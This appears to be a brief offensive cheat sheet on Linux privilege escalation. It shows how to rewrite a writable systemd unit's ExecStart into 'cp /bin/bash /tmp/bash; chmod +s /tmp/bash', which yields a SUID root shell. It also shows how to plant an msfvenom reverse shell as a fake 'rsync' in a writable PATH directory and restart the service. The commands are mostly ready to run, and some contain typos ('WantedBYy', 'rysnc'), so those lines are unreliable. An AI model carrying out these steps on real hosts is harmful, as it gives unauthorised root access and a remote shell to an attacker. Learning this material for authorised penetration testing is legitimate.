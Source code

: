 # Writables
-----

https://nozerobit.github.io/linux-privesc-services/

### writable .service file:

```bash
/etc/systemd/system/zeno-monitoring.service
```

```bash
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBYy=multi-user.target
```

Change the command in the ExecStart parameter to execute commands
```bash
ExecStart=cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

-------------

### writable $PATH variable
- echo $PATH variable to list out the directories set in the $PATH variable.
- If we have write access to any folder in the PATH and there exists a cron job that we can take advantage of, we can write a shell and get root.

- If we have write access to any folder in the PATH and there exists a service configuration file which uses relative paths, we can get a root shell.
```bash
sudo vim /etc/systemd/system/name.service
ExecStart=rsync
```
- Generate a reverse shell using msfvenom and place it in the folder in PATH
```bash
cp /tmp/rysnc /usr/local/bin/rsync
```
- Restart the service
```bash
sudo systemctl restart name.service
```

